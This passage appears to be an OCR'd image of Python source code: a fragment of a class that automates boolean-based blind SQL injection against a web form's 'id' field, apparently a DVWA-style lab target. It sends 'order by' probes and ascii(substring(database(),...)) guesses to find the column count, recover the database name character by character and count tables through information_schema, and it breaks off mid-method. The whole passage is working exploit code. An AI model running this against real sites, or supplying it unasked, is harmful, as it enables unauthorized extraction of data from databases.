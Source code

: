 ```python
            data = {
                'id':"1 order by {0}".format(str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if not self.check(html):
                self.itsnum = i - 1
                break
        if self.itsnum > 0:
            print('\n==>',self.itsnum)
        else:
            print("\ncan not get the itsnum")
    def get_database_length(self):
        self.database_length = 0
        for i in range(1,30):
            self.process('get_database_length',i,30)
            data = {
                'id':"1 and length(database())={0}".format(str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.database_length = i
                break
        if self.database_length > 0:
            print('\n==>',self.database_length)
        else:
            print("\ncan not get the database_length")
    def get_database(self):
        self.database = ''
        for i in range(1,self.database_length+1):
            for j in self.zifuji:
                self.process(str(i) + ' get_database',j,self.database_length+1)
                data = {
                    'id':"1 and ascii(substring(database(),{0},1))={1}".format(str(i),str(j)),
                    'Submit':'Submit',
                }
                html = self.s.post(self.url,data=data,headers=self.headers).text
                if self.check(html):
                    self.database += chr(j)
                    break
            if len(self.database) != i:
                self.database += '666'
        if len(self.database) > 0:
            print('\n==>',self.database)
        else:
            print("\n can not get the database")
    def get_table_num(self):
        self.table_num = 0
        for i in range(1,30):
            self.process('get_table_num',i,30)
            data = {
                'id':"1 and (select count(table_name)a from information_schema.tables where table_schema=database() having a={0})".format(str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.table_num = i
                break
        if self.table_num > 0:
            print('\n==>',self.table_num)
        else:
```